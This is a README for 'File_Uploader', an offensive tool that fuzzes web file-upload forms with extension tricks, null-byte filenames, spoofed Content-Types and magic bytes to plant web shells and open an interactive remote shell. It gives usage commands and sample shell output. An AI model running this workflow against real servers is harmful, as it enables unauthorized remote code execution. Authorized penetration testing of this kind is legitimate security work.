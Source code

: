 👻 File_Uploader – File Upload Exploitation Tool

📝 Description

File_Uploader is a powerful file upload exploitation and fuzzing tool designed for penetration testers, bug bounty hunters, and security researchers.
It automates testing of file upload vulnerabilities, including:
File extension fuzzing (php, asp, jsp, config, etc.)
Special character injection in filenames (null bytes, slashes, etc.)
Content-Type header fuzzing to bypass MIME filters
Magic bytes injection to trick server-side file type validation
Automatic web shell detection & interactive command execution
This tool is built to identify misconfigurations, whitelist bypasses, and RCE opportunities from vulnerable upload forms.

🚀 Features

✅ Extension fuzzing with built-in categories or custom wordlists
✅ Double & reverse extension attacks
✅ Special characters injection (%00, %0a, : etc.)
✅ Content-Type header fuzzing (use custom list or defaults)
✅ Magic bytes injection (prepend real image headers)
✅ Auto-detect uploaded shells and spawn interactive shell
✅ Beautiful color-coded results table with rich

📦 Installation
git clone https://github.com/YOURUSERNAME/file_uploader.git
cd file_uploader
pip install -r requirements.txt


Requirements:
Python 3.x
requests
rich
Install dependencies:
pip install requests rich

🛠️ Usage
python3 file_uploader.py --upload-url http://target/upload.php --base-url http://target

Examples:
# 1. Fuzz using built-in PHP extension list
python3 file_uploader.py --upload-url http://site.com/upload.php --base-url http://site.com --category php

# 2. Use custom wordlist of extensions
python3 file_uploader.py --upload-url http://site.com/upload.php --base-url http://site.com --wordlist /path/to/wordlist.txt

# 3. Fuzz Content-Type headers automatically
python3 file_uploader.py --upload-url http://site.com/upload.php --base-url http://site.com --fuzz-content-type

# 4. Use Magic Bytes injection (prepend real image headers)
python3 file_uploader.py --upload-url http://site.com/upload.php --base-url http://site.com --magic-bytes

# 5. Combine all (extension + content-type + magic bytes)
python3 file_uploader.py --upload-url http://site.com/upload.php --base-url http://site.com --category php --fuzz-content-type --magic-bytes

⚙️ Options
Flag	Description
--upload-url	Target file upload handler (e.g. http://host/upload.php)
--base-url	Base URL to access uploaded files (e.g. http://host)
--category	Extension category to test (php, asp, jsp, cfm, node, config, other, all)
--wordlist	Path to custom wordlist of extensions (overrides --category)
--fuzz-content-type	Enable fuzzing with multiple Content-Type headers (default uses image/* types)
--content-type-list	Path to custom list of content types
--magic-bytes	Enable Magic Bytes injection (prepend real image headers: PNG, GIF, JPEG)

🎨 Output

Green: Successful upload + working RCE (web shell detected)
Yellow: Upload succeeded but no RCE detected
Red: Upload failed

When a shell is found, the tool offers an interactive shell:
[*] Web shell available at: http://target/profile_images/shell.php
shell> id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
shell> uname -a
Linux target 5.4.0-81-generic ...

🧠 How It Works

Generates filename variants (double/reverse extension + special chars)
Uploads each payload with various Content-Types
(Optional) Prepend Magic Bytes to fool content validation
Checks if upload succeeded
Tests RCE by executing id
Displays results in a colorful table

⚠️ Disclaimer

This tool is for educational and authorized penetration testing purposes only.
Do not use it on systems you do not own or have explicit permission to test.

🏴‍☠️ Author
   Gh0stSh3ll5619
👻 Ghostops-Security
